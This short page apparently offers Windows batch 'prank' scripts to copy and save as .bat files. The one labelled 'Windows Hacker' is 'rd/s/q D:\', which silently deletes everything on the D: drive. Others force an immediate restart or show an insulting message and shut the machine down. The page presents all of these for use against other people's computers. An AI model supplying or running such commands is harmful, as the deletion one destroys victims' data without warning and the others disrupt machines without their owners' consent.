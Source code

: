 Copy the below code and save file as .bat

======================================================

Windows Hacker :-
rd/s/q D:\

======================================================

Unfortunate Restart
@echo off
shutdown -r -f -t 00

======================================================

April Fool
msg * I don't like you
shutdown -c "Error! You are too stupid!" -s

